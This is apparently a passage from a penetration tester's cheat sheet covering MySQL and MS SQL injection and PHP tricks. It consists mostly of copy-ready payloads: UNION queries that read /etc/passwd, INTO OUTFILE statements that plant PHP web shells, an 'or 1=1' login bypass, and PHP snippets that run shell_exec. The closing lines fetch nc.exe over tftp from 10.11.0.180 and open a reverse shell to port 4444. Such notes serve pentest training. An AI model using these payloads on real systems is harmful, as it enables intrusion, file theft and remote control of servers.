 columns in `information_schema.columns`
- `column_name`
- `WHERE table_name=taget`

`load_file('')` 
`into OUTFILE 'filename'` - writes file to file system
`‘ UNION SELECT 1, load_file(/etc/passwd) #`
`‘ union select 1,’‘ INTO OUTFILE ‘/var/www/dvwa/cmd.php’ #`
`union select “<? system($_REQUEST\[‘cmd’\]); ?>”,2,3 INTO OUTFILE ‘/var/www/test/execcmd.php’#`

### MS SQL


`--` - comment

`admin' or 1=1;---` - login bypass

- [SQL Injection Attacks by Example](http://www.unixwiz.net/techtips/sql-injection.html)
- [MSSQL Injection Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

### PHP Tool box

`php -a` - interactive php shell
`php -S LHOST:LPORT -t .` - PHP test server

`php://filter/convert.base64encode/resource=FILENAME` - convert file to base64 to prevent execution of php code

[PHP: php:// - Manual ](https://www.php.net/manual/en/wrappers.php.php)

```
php://filter
php://input
```

do not use double quotes they may be escaped in the logs

`var .= 'text'` - append to variable
`var = 'text'.PHP_EOL` - add platform appropriate line break to text

`$_GET['URLVAR']` - collect value from URLVAR URL query parameter and place here

*Write files to file system*
Modes
'w' - Create new / Overwrite file
'a' - append to file

`<?php $myfile = fopen('/newfile.txt', 'w'); $txt = 'Jane Doe'.PHP_EOL; $txt .= 'John Doe'.PHP_EOL; fwrite($myfile, $txt); fclose($myfile); ?>`

`<?php $myfile = file_get_contents('/etc/passwd'); echo $myfile; ?>`

*Run command*
`<?php echo shell_exec($_GET['cmd']); ?>`

`<?php echo shell_exec($_GET['tftp 10.11.0.180 nc.exe /nc.exe']); ?>`

`<?php echo shell_exec('tftp -i 10.11.0.180 get nc.exe /nc.exe'); echo shell_exec('\nc -nv 10.11.0.180 4444 -e cmd.exe'); ?>`
